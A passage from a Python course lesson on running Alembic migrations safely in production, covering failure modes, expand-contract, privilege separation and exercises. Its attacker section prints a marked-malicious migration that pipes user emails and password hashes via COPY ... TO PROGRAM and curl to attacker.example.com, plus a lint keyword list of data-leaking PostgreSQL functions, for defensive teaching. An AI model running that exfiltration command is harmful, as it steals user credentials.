**The diagnostic.** Check `alembic current` — it shows the pre-migration revision. Check `\d users` in `psql` — the index is there. The recovery is to manually clean up the orphaned index (`DROP INDEX ix_users_email`), then re-run the migrate Job. The defense: in the migration, use `op.create_index(..., if_not_exists=True)` (Alembic 1.13+ supports `if_not_exists` on `create_index`) so the migration is idempotent against a half-applied state. The deeper fix is to ensure the transactional boundary holds — never use `op.execute("COMMIT")` inside a migration, never run migrations with `transaction_per_migration = False` unless you have a specific reason, and never let humans run DDL outside of Alembic.

### Failure 3: Diverged heads — two developers each merge against the same `down_revision`

**Symptom.** Developer A merges migration `0006_add_phone_to_users` (down_revision `0005_make_slug_not_null`). Developer B, working in parallel, merges migration `0006_add_org_id_to_projects` (down_revision `0005_make_slug_not_null`). Both are at `0006`, both have `down_revision = "0005_make_slug_not_null"`. The next deploy runs `alembic upgrade head` — Alembic errors with `Multiple heads are present; please specify the target revision or use alembic merge`.

**Diagnosis.** The migration DAG has two heads (`0006_add_phone_to_users` and `0006_add_org_id_to_projects`), both descending from `0005`. Alembic cannot decide which to apply first; the DAG is not linear. The fix is a *merge revision* — a no-op migration that depends on both heads and becomes the new single head.

**The recovery.**
```bash
uv run alembic merge -m "merge phone and org_id heads" \
 0006_add_phone_to_users 0006_add_org_id_to_projects
```
This creates `0007_merge.py` with `down_revision = ("0006_add_phone_to_users", "0006_add_org_id_to_projects")` (a tuple — Alembic's DAG supports multiple parents) and an empty `upgrade()`. Commit the merge; the next deploy runs both `0006`s and the `0007` merge. The defense: the CI lint that catches this is `alembic heads` in the test job — if `alembic heads` returns more than one head, the CI job fails and the merge has to happen before merge to `main`.

### Failure 4: The migration image is stale — `env.py` imports old models

**Symptom.** The migrate Job's Pod logs show a successful `alembic upgrade head`, but the deploy that follows crashes on startup with `sqlalchemy.exc.NoSuchColumnError: could not find column "phone" in the projects table`. The migration that was supposed to add `phone` ran, but the new app code crashes reading it.

**Diagnosis.** The migrate Job's `image:` field in the Kubernetes manifest points at `ghcr.io/boardly/app:latest` (or a stale SHA), not at the git SHA of the new code. The Job's `env.py` imports the *old* models — the `User` model without `phone` — so the migration's autogenerate-hint check (or the `op.add_column` call) ran against a model that diverged from the deployed schema. The migration ran successfully (the column was added, in this case), but the new app code crashes because the Job's `env.py` and the app's `env.py` are different versions.

**The diagnostic.** Check the migrate Job's `image:` field against the deploy's `image:` field — they must be the same SHA. The fix: pin the image to `${{ github.sha }}` (in the GitHub Actions workflow) and `{{ .Values.image.tag }}` (in the Helm chart), and never use `:latest`. The defense: a CI lint that diffs the Job's image tag against the app's image tag and fails if they differ — or, more simply, a Helm template that uses the same `{{ .Values.image.tag }}` value for both the Job and the Deployment, so they cannot diverge by construction.

### Failure 5: The `downgrade()` is asymmetric — `alembic downgrade -1` succeeds but breaks the app

**Symptom.** The migration ships; the deploy succeeds; the new code crashes on a downstream bug. The on-call rolls back the app (the old code is running). The on-call then rolls back the migration (`alembic downgrade -1`). The downgrade succeeds — but the old app now crashes with `sqlalchemy.exc.NoSuchColumnError: could not find column "phone"`. The `downgrade()` dropped the `phone` column, but the old app code (rolled back to before the migration) expects the column.

**Diagnosis.** The `downgrade()` is asymmetric — it reverses the *schema* change but not the *code* change. The migration added `phone` (nullable); the new code wrote it; the old code (rolled back to) does not know about `phone`. But the old code's models were *also* rolled back — the old models do not reference `phone` — so the rollback should be safe. The crash means the rollback *also* rolled back a model change that the old code *does* depend on. The most common case: the migration added `phone` *and* the code change moved the column from `users.phone` to `users.contact_phone` (a rename) — the `downgrade()` dropped `contact_phone` but the rolled-back code expects `contact_phone`. The asymmetry is between the migration's view of the schema and the code's view.

**The recovery.** Do not trust the broken `downgrade()`. Write a *hotfix migration* that takes the database to the state the rolled-back code expects:
```python
def upgrade():
 op.add_column("users", sa.Column("contact_phone", sa.String(20), nullable=True))
 # populate from a backup or from logs if possible
```
The defense: the round-trip test in CI (`alembic upgrade head && alembic downgrade -1 && alembic upgrade head`) catches asymmetric downgrades *before* they ship — if the second `upgrade head` fails, the `downgrade()` is asymmetric. The CI round-trip is non-negotiable for any migration that touches a column the app code depends on.

## How an Attacker Thinks

A migration file is Python code that runs with the database's most privileged role — the role that has `CREATE`, `ALTER`, `DROP`, and (often) `EXECUTE` on any function the migration calls. A senior DBA reads every migration as an attacker would: where does this migration give an attacker a path to data exfiltration, data destruction, or privilege escalation?

### Migration as a data-exfiltration vector

A migration that uses `op.execute()` with arbitrary SQL can run any PostgreSQL function the migration role has `EXECUTE` on. PostgreSQL's `COPY ... TO PROGRAM` runs an arbitrary shell command as the `postgres` OS user:
```python
# MALICIOUS — never write this
def upgrade():
 op.execute(
 "COPY (SELECT email, password_hash FROM users) "
 "TO PROGRAM 'curl https://attacker.example.com/collect -d @-'"
 )
```
This migration exfiltrates the entire `users` table to an attacker-controlled server. The `op.execute()` call looks like any other SQL execution; a code reviewer who is reading the migration for schema correctness sees the `COPY` and might not register the `TO PROGRAM` clause. The defense is two layers. (1) Code review of every `op.execute()` call — the reviewer asks "what does this SQL do, and what functions does it call?". (2) A CI lint that flags `op.execute` calls containing `COPY`, `PROGRAM`, `pg_read_file`, `pg_ls_dir`, `pg_stat_file`, `lo_import`, `lo_export` — the PostgreSQL functions that read or transmit data outside the database.

The deeper defense is privilege separation: the migration role should have DDL privileges (`CREATE`, `ALTER`, `DROP` on schema) but should *not* have `EXECUTE` on `COPY ... TO PROGRAM` or on the file-reading functions. PostgreSQL 17 lets you revoke these from `PUBLIC` and from the migration role explicitly:
```sql
REVOKE EXECUTE ON FUNCTION pg_read_file(text) FROM PUBLIC;
REVOKE EXECUTE ON FUNCTION pg_read_file(text, bigint, bigint) FROM PUBLIC;
REVOKE EXECUTE ON FUNCTION pg_ls_dir(text) FROM PUBLIC;
```
The migration role, even if it can `ALTER TABLE`, cannot call `pg_read_file`. The defense is defense-in-depth — the role layer catches what the code review misses.

### `DROP TABLE` in a migration — the one-way door

A migration that ships `op.drop_table("users")` is a one-way door that destroys data. The `downgrade()` is `op.create_table("users", ...)` — but the data is gone. The senior DBA reads `op.drop_table` as: "this migration will destroy data that the `downgrade()` cannot restore; the rollback path stops here." The defense is a review-required tag on every destructive migration:
```python
"""drop deprecated_users table

**Danger —** one-way door — review required
This migration drops the deprecated_users table. The table is unused
since 2026-08; the data is not backed up. Two-reviewer approval required.
"""
```
The tag is a convention; the enforcement is a CI lint that fails the PR if a migration's docstring contains `**Danger —**` and the PR has fewer than two approvals. The rule: any migration that includes `op.drop_table`, `op.drop_column` (on a column with data), `op.execute("TRUNCATE")`, or `op.execute("DELETE FROM ...")` without a `WHERE` is a one-way door and gets the review-required tag.

### The migration connection as a privileged surface

The migrate Job runs with a database URL from a Kubernetes secret (or a GitHub Actions secret). That URL typically points at a role with `CREATE`, `ALTER`, `DROP` privileges — the privileges the migration needs to apply schema changes. An attacker who can read the secret can connect to the database with those privileges and exfiltrate or destroy data: `pg_dump` the entire database, `DROP TABLE` the user data, `ALTER ROLE` to escalate. The defense is privilege separation between the migration role and the app's runtime role:

| Role | Privileges | Used by |
|---|---|---|
| `boardly_migrate` | `CREATE`, `ALTER`, `DROP` on `public` schema; `INSERT`/`UPDATE`/`SELECT` on `alembic_version` | The migrate Job only |
| `boardly_app` | `SELECT`, `INSERT`, `UPDATE`, `DELETE` on app tables; no DDL | The app's runtime pool only |

The app's runtime role has no DDL — an attacker who reads the app's connection string cannot `DROP TABLE`. The migration role has DDL but is used only by the migrate Job — the secret is scoped to the Job, not to the Deployment. The two-role split is the defense-in-depth that limits the blast radius of a secret leak. The audit: `pg_stat_activity` should never show a connection from the migration role outside a deploy window — if it does, the migration secret has been read by something other than the Job.

### The migration review as a security gate

At scale, every migration PR is reviewed by a DBA (or a senior engineer with DBA authority) before merge. The review is not just for correctness — it is for security. The reviewer asks: "does this migration's `op.execute()` call any function that reads or transmits data outside the database? Does this migration drop a table or column with data? Does this migration's `downgrade()` actually reverse the `upgrade()`, or does it leave the database in a state the app cannot tolerate?" The DBA review is the human-in-the-loop gate that catches the autogenerate-hint bugs (Lesson 02 — autogenerate proposes a single-step rename that breaks the rolling deploy), the asymmetric-downgrade bugs, and the data-exfiltration vectors — before they ship. The review is not optional; the migration that ships without it is the migration that pages the on-call at 3 AM.

## Production Reality

The patterns in this lesson — expand-contract, migrate Job, rollback discipline — are taught as if they were universal. In production, they are the *default*, but the operational details vary by team, by database, and by traffic shape. This section walks through the production realities that the canonical patterns do not capture.

### Zero-downtime migrations — the discipline, not the marketing

"Zero-downtime migration" is a marketing term; the engineering term is "no downtime *above* the SQL transaction's `lock_timeout`". Every migration either (a) takes only a catalog lock (milliseconds, no app-visible downtime) or (b) takes a brief `AccessExclusiveLock` that the app's retry-on-`OperationalError` can absorb. The expand-contract pattern is the canonical way to ship (b)-class migrations: split the long-held lock into several short-held locks across deploys, so each lock is short enough that the app's retry budget covers it.

The PostgreSQL 17 specifics, in order of app-visible impact:

- `ALTER TABLE ... ADD COLUMN ... NULL` (no default): catalog-only, milliseconds, no app downtime. (Step M1.)
- `ALTER TABLE ... ADD COLUMN ... NOT NULL DEFAULT 'x'`: catalog-only on PostgreSQL 11+, milliseconds, no app downtime. (The default is stored in the catalog, not written to existing rows.)
- `ALTER TABLE ... ADD CONSTRAINT ... NOT VALID`: catalog-only, milliseconds. The constraint is not enforced on existing rows. (Then `VALIDATE CONSTRAINT ...` later — takes a `ShareUpdateExclusiveLock`, which does not block writes.)
- `CREATE INDEX CONCURRENTLY`: non-blocking, takes a `ShareUpdateExclusiveLock` (does not block writes), but takes longer than `CREATE INDEX` (which takes an `AccessExclusiveLock` and blocks writes). The trade-off: `CONCURRENTLY` is slower but does not lock the table.
- `ALTER TABLE ... ALTER COLUMN ... TYPE`: table rewrite, `AccessExclusiveLock` for the duration. Blocking. (Avoid; use a new column + backfill + drop-old pattern instead.)
- `ALTER TABLE ... ALTER COLUMN ... SET NOT NULL`: on PostgreSQL 11+, this takes an `AccessExclusiveLock` for the duration of the verification scan — and if every row already has a value (after a backfill), the scan finds zero violations and completes in seconds on a million-row table. On a billion-row table, the scan takes minutes — split into `NOT VALID` form + `VALIDATE CONSTRAINT` with a `ShareUpdateExclusiveLock`.

The expand-contract pattern's step M2 (`ALTER COLUMN slug SET NOT NULL`) on PostgreSQL 11+ takes an `AccessExclusiveLock` *but only for the duration of the verification scan* — and because the backfill (B) already set every row, the scan finds zero violations and completes in seconds on a million-row table. The operation is non-blocking in practice because the lock is held for seconds, not minutes — and the app's retry budget (typically 5–10 seconds, set via the SQLAlchemy engine's `pool_timeout` and the HTTP client's `timeout`) covers it. On a billion-row table, the verification scan takes longer (minutes); the senior DBA either batches the verification (validate the constraint in `NOT VALID` form, then `VALIDATE CONSTRAINT` with a `ShareUpdateExclusiveLock`) or schedules the M2 step for a low-traffic window — the *only* window where the canonical pattern requires scheduling.

### The 3 AM migration window — a symptom, not a discipline

In many teams, the convention is that migrations run at 3 AM because that is when traffic is lowest and the on-call is awake (or about to be). The 3 AM window is a *symptom* of broken isolation — if your migrations required the 3 AM window, you have a migration that takes an exclusive lock for longer than the app's retry budget. The fix is not "schedule for 3 AM"; the fix is "make the migration not require the window". The 3 AM convention persists because it is a cultural habit, not a technical necessity, for migrations that already follow expand-contract.

The senior DBA's reading of "we run migrations at 3 AM" is: this team has migrations that hold exclusive locks for minutes, and the only mitigation they have found is to schedule them when traffic is low. The deeper fix is to refactor the migration into the expand-contract pattern so that no single step holds an exclusive lock for longer than the retry budget — at which point the 3 AM window is unnecessary, and the migration can ship at 2 PM on a Tuesday. The 3 AM window is the *cost* of the broken isolation; the fix is the *discipline* of expand-contract. The exception is the genuinely long backfill (a 1-billion-row `UPDATE` that has to run in batches over hours) — that migration has to be scheduled for a low-traffic window because the *backfill* takes hours, not because the schema change does.

### The DBA review — the human-in-the-loop gate

At scale (a service with more than ~50 migrations a year, or a database shared across multiple services), every migration PR is reviewed by a DBA before merge. The review checks:

- **Lock impact**: does the migration take an `AccessExclusiveLock`? For how long? Is the app's retry budget sufficient?
- **Transaction size**: does the migration's backfill write more than ~10 000 rows in one transaction? If yes, the transaction's WAL record is large, the commit is slow, and the long transaction pins the `xmin` horizon (the [[07-SQLAlchemy/05-Session-and-Transaction-Management]] cost) — split into batches.
- **Rollback plan**: does the `downgrade()` reverse the `upgrade()`? Is there a one-way door? Where does the rollback stop?
- **Asymmetry check**: does the rolled-back app tolerate the rolled-back schema? (The round-trip test in CI catches this, but the human review is the second gate.)

The DBA review is the human-in-the-loop gate that catches the autogenerate-hint bugs (Lesson 02 — autogenerate proposes a single-step rename that breaks the rolling deploy) and the asymmetric-downgrade bugs before they ship. The review is not optional for any migration that touches a column the app code depends on; for migrations that only add a nullable column (the safe M1 step), the review can be lighter. The team that ships 50 migrations a year without a DBA review is the team that pages the on-call at 3 AM twice a year for a migration bug the review would have caught.

### The migration as a deploy dependency, not a deploy step

In the GitHub Actions workflow in this lesson, the `deploy` job has `needs: migrate` — the deploy does not start until the migration succeeds. This makes the migration a *deploy dependency*, not a deploy step. The distinction matters for the rollback: if the deploy fails (the new code crashes), the migration has *already run* — the database is at the new schema, the app is rolled back to the old code, and the old code has to tolerate the new schema (which it does, because of expand-contract). The migration is durable state; the app is ephemeral state. The deploy dependency makes the ordering explicit: migration first, app second, rollback app first, rollback migration only if needed.

The production reality is that the migration-as-dependency pattern does not compose with blue-green deploys out of the box — the blue stack has to keep working *until* green takes all traffic, and the migration has to be compatible with both stacks for the entire overlap window. The composition is taught in this lesson's blue-green question callout; the production reality is that blue-green *with* expand-contract migrations is the pattern that ships schema changes to a service with a 30-second deploy SLO and zero user-visible downtime. The discipline is the composition; the 3 AM window is the absence of the discipline.

## Exercises

**Tip — The 20-minute rule**

If you are stuck on an exercise for more than 20 minutes, re-read the relevant section above, then move on and come back. Learning is not linear.


**Exercise 1 — Trace the failure mode.** You have a `User` model with `email`. You decide to change the column name to `email_address` and ship it as a single migration + code change in one deploy. The migration is `op.alter_column("users", "email", new_column_name="email_address")`. Walk through what happens during the rolling deploy: which version of the code reads `email`, which reads `email_address`, what the database looks like at each moment. Where does the failure occur? (Hint: the migration runs first; the app code reads the old name until the new version rolls out.)

**Exercise 2 — Apply expand-contract.** Take the `slug` change from this lesson and ship it as five separate deploys in your dev environment. After each step, run the test suite and verify the app still works. Confirm that rolling back to the previous step at any point leaves the app functional.

**Exercise 3 — The safety check.** Modify M2 to remove the `COUNT(*)` safety check. Insert a row with `slug = NULL` between B and M2 (simulating a bug in D1). Run M2. Confirm the cryptic `NotNullViolation`. Restore the safety check. Re-run. Confirm the clear error message.

**Exercise 4 — Kubernetes Job.** Set up a local `kind` (Kubernetes-in-Docker) cluster. Deploy the Boardly app with Helm. Trigger a `helm upgrade`. Watch the migration `Job` run before the new `Deployment` rolls out. Use `kubectl logs job/boardly-migrate-...` to see the migration logs.

**Exercise 5 — GitHub Actions.** Fork the Boardly repo. Set up the GitHub Actions workflow. Add a `BOARDLY_DATABASE_URL` secret to the repo's `production` environment. Push a migration. Watch the `migrate` job run from the GitHub runner and connect to your database. Confirm the `deploy` job does not start until `migrate` succeeds.

**Exercise 6 — Rollback.** Ship the M2 migration. Then introduce a bug in the app that causes 500 errors. Roll back the deploy (the app, not the migration). Verify the app is healthy again. Then roll back the migration (`alembic downgrade -1`). Verify the database is at M1 and the app is healthy.

**Exercise 7 — Spot the bug.** This migration is supposed to be the M2 step. What is wrong?

```python
def upgrade():
 op.alter_column("projects", "slug", existing_type=sa.String(120), nullable=False)
def downgrade():
 op.alter_column("projects", "slug", existing_type=sa.String(120), nullable=True)
```

(Answer: no safety check. If the backfill was incomplete, M2 fails with a cryptic error. Add the `COUNT(*)` check before the alter.)

**Exercise 8 — Diagnose diverged heads in CI.** Create two migrations with the same `down_revision` (both `0006_*` descending from `0005`). Run `uv run alembic heads` — confirm it prints two heads. Run `uv run alembic upgrade head` — confirm it errors with `Multiple heads are present`. Run `uv run alembic merge -m "merge heads" 0006_a 0006_b` to create the merge revision. Verify with `uv run alembic heads | wc -l` returning `1`.

**Exercise 9 — `lock_timeout` makes a stuck migration fail fast.** Write a migration that does `op.execute("SET lock_timeout = '3s'")` then `op.create_index(...)`. In a separate `psql` session, hold an `AccessExclusiveLock` on the table (`BEGIN; LOCK TABLE projects IN ACCESS EXCLUSIVE MODE;` without committing). Run the migration. Confirm it fails within 3 seconds with `canceling statement due to lock timeout`. Verify with `uv run alembic upgrade head 2>&1 | rg "lock timeout"` returning a match.

**Exercise 10 — Idempotent migration with `if_not_exists`.** Manually create the index outside Alembic (`psql -c "CREATE INDEX ix_projects_slug ON projects(slug)"`). Run the migration without `if_not_exists=True` — confirm `DuplicateTable`. Add `if_not_exists=True` to the `op.create_index` call. Re-run — confirm it succeeds (skips). Verify with `uv run alembic upgrade head && uv run alembic current | rg 0003_add_slug_to_projects` returning a match.

**Exercise 11 — Migrate-image provenance parity.** Build the app image with `docker build -t ghcr.io/boardly/app:$(git rev-parse HEAD) .` and capture the digest (`docker inspect --format='{{index .RepoDigests 0}}'`). Configure the migrate Job's `image:` to the same digest (with `@sha256:`). Run `helm upgrade`. Write a script `scripts/check_image_parity.py` that fetches the migrate Job's and the Deployment's image digests via `kubectl` and asserts they match. Verify with `uv run python scripts/check_image_parity.py` exiting 0 on match and non-zero on mismatch.

**Exercise 12 — The rollback drill.** In staging, ship M1 (`uv run alembic upgrade head` to `0003`). Run `uv run alembic downgrade -1` and confirm the database returns to `0002`. Time the downgrade. Run `uv run alembic upgrade head` to restore. Verify with `uv run alembic current | rg 0002_rename_description_to_summary` (after downgrade) and `uv run alembic current | rg 0003_add_slug_to_projects` (after restore) both returning a match.

**Exercise 13 — Two-role privilege split.** Create two PostgreSQL roles: `boardly_migrate` (with `CREATE, ALTER, DROP` on `public`) and `boardly_app` (with `SELECT, INSERT, UPDATE, DELETE` on app tables, no DDL). Configure the migrate Job with `boardly_migrate`'s URL and the app with `boardly_app`'s URL. Confirm the app cannot run `DROP TABLE` (`psql -c "DROP TABLE projects" --role boardly_app` returns `permission denied`). Verify with `uv run pytest tests/test_role_split.py -k app_role_no_ddl` exiting 0.

## Verification

```bash
# 1. Apply the migration chain
uv run alembic upgrade head
# expected: INFO [alembic.runtime.migration] Running upgrade ... -> 0005_make_slug_not_null, make slug not null

# 2. Verify the column is NOT NULL
psql -d boardly_dev -c "\d projects"
# expected: column "slug" of type VARCHAR(120), nullable: NO

# 3. Verify every row has a slug
psql -d boardly_dev -c "SELECT COUNT(*) FROM projects WHERE slug IS NULL;"
# expected: 0

# 4. Verify the app uses slug
curl http://127.0.0.1:8000/projects/by-slug/<some-slug>
# expected: a 200 with the project JSON, or a 404 if no such slug

# 5. Test the deploy pipeline
git push origin main
# expected: GitHub Actions runs `migrate` job first, then `deploy` job

# 6. Test the Kubernetes Job
helm upgrade boardly ./charts/boardly
kubectl logs -l job-name=boardly-migrate-... -f
# expected: alembic upgrade head runs to completion before the new Deployment rolls out
```

## Previously Learned Here

- **FastAPI lifespan** — [[03-FastAPI-Core/Application-and-Lifespan]]. Reused here as the place where migrations do *not* run. The lifespan owns application-level setup; the migration owns schema-level setup; they are different events.
- **DeclarativeBase** — [[07-SQLAlchemy/03-Declarative-Base-and-Mapped]]. Reused here as the `Base.metadata` that the migration `env.py` reads.
- **Transactions (SQL)** — [[06-SQL-Fundamentals/Transactions-Isolation-Locks]]. Reused here as the reason long migrations holding locks are bad — the expand-contract pattern is designed around not holding locks during a deploy.
- **Idempotency** — [[02-Web-and-HTTP/Idempotency-Safe-Retries-Pagination]]. Reused here for the backfill (B) — re-running the backfill is safe because of the `WHERE slug IS NULL` filter.

## What's Next

You have finished Section 09. The next stops are:

- [[10-Async-Python/Event-Loop-and-Coroutines]] — the canonical lesson on the event loop and coroutines, which `Boardly`'s async endpoints (and async SQLAlchemy) sit on top of.
- [[16-Deployment-and-DevOps/Migration-Ordering-and-Rollback]] — the production deploy pipeline that wraps the Lesson 04 workflow, including rollback automation, multi-region considerations, and DBA review.

By the end of the next section, you will understand why the `async def` in your endpoints behaves the way it does — and what "the event loop is single-threaded" actually means for your code.

## Sources

- Alembic — Tutorial — <https://alembic.sqlalchemy.org/en/latest/tutorial.html> — accessed 2026-10-19.
- Alembic — Cookbook: Online (non-blocking) migrations — <https://alembic.sqlalchemy.org/en/latest/cookbook.html> — accessed 2026-10-19 — patterns for zero-downtime schema changes.
- Kubernetes — Jobs — <https://kubernetes.io/docs/concepts/workloads/controllers/job/> — accessed 2026-10-19 — the `Job` resource we use for the migration job.
- Helm — Hooks — <https://helm.sh/docs/topics/charts_hooks/> — accessed 2026-10-19 — the `helm.sh/hook` annotations that gate the Job before the Deployment.
- GitHub Actions — Workflow syntax — <https://docs.github.com/en/actions/using-workflows/workflow-syntax-for-github-actions> — accessed 2026-10-19 — `needs:` for job dependencies.
- astral-sh/setup-uv — <https://github.com/astral-sh/setup-uv> — accessed 2026-10-19 — the official GitHub Action for installing `uv`.
- PostgreSQL — `ALTER TABLE ... ADD COLUMN ... DEFAULT` non-blocking behavior — <https://www.postgresql.org/docs/current/sql-altertable.html> — accessed 2026-10-19 — why some ALTER TABLE operations are fast and others are not.
- Brandur Leach — "Migrations and Zero Downtime" — <https://brandur.org/zero-downtime> — accessed 2026-10-19 — the canonical essay on the expand-contract pattern.

## What We Learned

Let's recap. In this lesson you:

- **Stated the migration ordering problem** — schema-before-code vs code-before-schema — and the failure modes of each during a rolling deploy.
- **Explained why `alembic upgrade head` is a deploy step, not a lifespan step** — multi-instance races, migration failure becomes app failure, long migrations cannot run in a startup hook.
- **Coordinated migrations across multiple app instances** using a deploy job (Kubernetes `Job` or GitHub Actions step) that runs the migration once, before the app instances roll out.
- **Applied the expand-contract pattern** — five steps (M1, D1, B, D2, M2), each safe against both versions of the code, zero downtime.
- **Read a real deploy graph** and identified the safe ordering for a given schema change.
- **Configured a Kubernetes `Job`** with Helm hook annotations that runs `alembic upgrade head` before the new `Deployment` rolls out, and a **GitHub Actions workflow** that gates the deploy on the migration succeeding.
- **Hit and avoided the eight classic production-migration mistakes** — migrations in lifespan, schema and code in one deploy, no safety check before `SET NOT NULL`, multi-instance races, mismatched migration image, no `activeDeadlineSeconds`, verifying the app but not the migration, no rollback plan.
- **Reframed the migration as a deployment phase, not a startup step** — the rollback asymmetry (the orchestrator restarts a failed app boot; only the deploy pipeline can roll back a failed migration) is why the migration has its own `activeDeadlineSeconds`, `backoffLimit`, `lock_timeout`, and `downgrade()`. The three DBA questions (schema-state-now / each-version-tolerates / rollback-path-and-one-way-door) gate every migration PR.
- **Added three "What happens inside" callouts** — `ALTER TABLE ... ADD COLUMN ... NULL` is catalog-only on PostgreSQL 17 (writes a `pg_attribute` row, no data-page rewrite, milliseconds regardless of table size); `alembic upgrade head` walks the DAG, queries `alembic_version`, runs each migration in a transaction, updates `alembic_version.version_num` on success (the transactional boundary makes retries idempotent on PostgreSQL because DDL is transactional); the migrate Job's retry on failure works because the failed migration's transaction rolled back and `alembic_version` is unchanged.
- **Diagnosed five production-grade migration failures** — the locked-table hang (waiting on `AccessExclusiveLock`, diagnosed via `pg_locks` joined to `pg_stat_activity`, fixed with `SET lock_timeout = '3s'`); the half-applied migration (`DuplicateTable` from a previous non-transactional attempt, fixed with `if_not_exists=True`); diverged heads (two `down_revision`s matching the same parent, fixed with `alembic merge`); the stale migration image (`env.py` imports old models, fixed by pinning the image to the git SHA); the asymmetric `downgrade()` (rolls back schema but not code, caught by the round-trip test, recovered with a hotfix migration).
- **Read every migration as an attacker would** — `op.execute()` with `COPY ... TO PROGRAM` is a data-exfiltration vector (defense: code review + CI lint + `REVOKE EXECUTE ON FUNCTION pg_read_file`); `op.drop_table` is a one-way door (defense: the `**Danger —**` review-required tag + two-approval CI lint); the migration role as a privileged surface (defense: the two-role split — `boardly_migrate` has DDL, `boardly_app` has only DML, the secret is scoped to the Job).
- **Distinguished zero-downtime as a discipline, not a marketing term** — every migration is "no downtime above the `lock_timeout`"; the 3 AM migration window is a *symptom* of broken isolation (the fix is expand-contract, not scheduling); the DBA review is the human-in-the-loop gate that catches autogenerate-hint bugs and asymmetric-downgrade bugs before they ship; the migration is a deploy dependency (`needs: migrate`), not a deploy step, and the rollback discipline is "app first, migration second".

Here's the mental model to walk away with: *a production migration is not a single operation; it is a sequence of safe states, each one deployed separately. The expand-contract pattern — add nullable, deploy code that writes, backfill, deploy code that requires, tighten constraint — is the standard sequence. The migration runs as a deploy step from a single process; the app instances never run migrations. The rollback discipline is: roll back the app first, then roll back the migration, in that order. One-way-door migrations stop the rollback at the door; the release cycle is the insurance.*

---

> A note from your teacher
You have finished Section 09. You now have a schema-management pipeline — installed, reviewed, backfilled, and deployed — that ships a column change to a million-row production database with two versions of the app running at once, without anyone noticing. That is not a small thing. The skeleton you wrote in these four lessons stays the same for every schema change you will ever ship. The migrations change; the pipeline does not. Next we move from the database to the event loop — Section 10, where you will learn why `async def` is not magic, why blocking the loop is the cause of half of "my async server isn't actually concurrent" bugs, and what to do about it. See you there.


---

**Tags:** #alembic #deployment #production #review
**Previous:** [[Data-Migrations-Safely]]
**Next:** [[10-Async-Python/Event-Loop-and-Coroutines]] →
